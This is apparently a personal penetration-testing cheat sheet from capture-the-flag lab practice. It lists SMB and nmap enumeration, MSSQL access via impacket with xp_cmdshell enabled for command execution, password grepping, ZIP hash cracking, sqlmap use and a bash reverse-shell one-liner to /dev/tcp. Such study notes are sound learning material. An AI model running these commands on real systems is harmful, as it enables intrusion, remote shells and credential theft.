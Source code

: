 ```yaml
---
title: "2022-06-28"
tags:
  - cs/hacking
programming-languagues:
created: 2022-06-28
---
```

## Resources
- [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)

## Tools
### SMB
Server Message Blocks (Port 445) (aka Common Internet File System).

To enumerate:
```bash
smbclient -N -L \\\\{TARGET_IP}\\

-N: no password
-L: look at what services are available
```

To access:
```bash
smbclient -N \\\\{TARGET_IP}\\<folder>
```

When inside, **dir** prints the directories.

To download a file: **get**.

### NMAP
```bash
nmap -p- --min-rate 5000 -sV {TARGET_IP} 
nmap -sC -sV {TARGET_IP}
```

### Impacket
Can be used to connect and authenticate to a MSSQL server for example.

We can try to connect to the MSSQL server by using impacket's `mssqlclient.py` script along with the  
following flags:  
```bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

-windows-auth : this flag is specified to use Windows Authentication  
```

Check if I am admin inside MSSQL:
```sql
SELECT is_srvrolemember('sysadmin');
```

To check for `xp_cmdshell`:
```sql
EXEC xp_cmdshell 'net user';
```

To activate `xp_cmdshell`:
```sql
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE;  
sp_configure; - Enabling the sp_configure as stated in the above error message  
EXEC sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;
```

We can also use the powershell like this:
```bash
xp_cmdshell "powershell -c pwd"
```

Navigation:
```bash
xp_cmdshell "powershell -c cd C:/Users/Public; dir"
```

More on MSSQL Pentesting:
- Pentesting MSSQL ([HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server))
- [MSSQL Injection CheatSheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

### BURP
Burp Suite is a powerful security testing application that can be used to perform web requests on web applications, mobile apps, and thick clients. Burp offers multiple capabilities such as web crawler, scanner, proxy, repeater, intruder and many more.  

A web crawler (also known as a web spider or web robot) is a program or automated script which browses the World Wide Web in a methodical, automated manner. This process  
is called Web crawling or spidering. Many legitimate sites, in particular search engines, use spidering as a means of providing up-to-date data.  

If you tunnel web traffic through Burp Suite (without intercepting the packets), by default it can passively spider the website, update the site map with all of the contents requested and thus creating a tree of files and directories without sending any further requests.

### Stable Reverse Shell
```bash
sudo python3 -m http.server 80
```

```bash
sudo nc -lvnp 443
```

- Functional php reverse shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### SUID
Commonly noted as SUID (Set owner User ID), the special permission for the user access level has a single function: A file with SUID always executes as the user who owns the file, regardless of the user passing the command. If the file owner doesn't have execute permissions, then use an uppercase S here.

### Useful Commands
```bash
cat * | grep -i passw*
```

### Crack a ZIP file
Turn into hash:
```bash
zip2john backup.zip > hashes
```

```bash
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
```

### SQLmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL injection flaws. SQLmap automates the process of detecting and exploiting SQL injection. SQL Injection attacks can take control of databases that utilise SQL.

- Command:
```bash
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --  
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"
```

- Good shell:
```bash
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```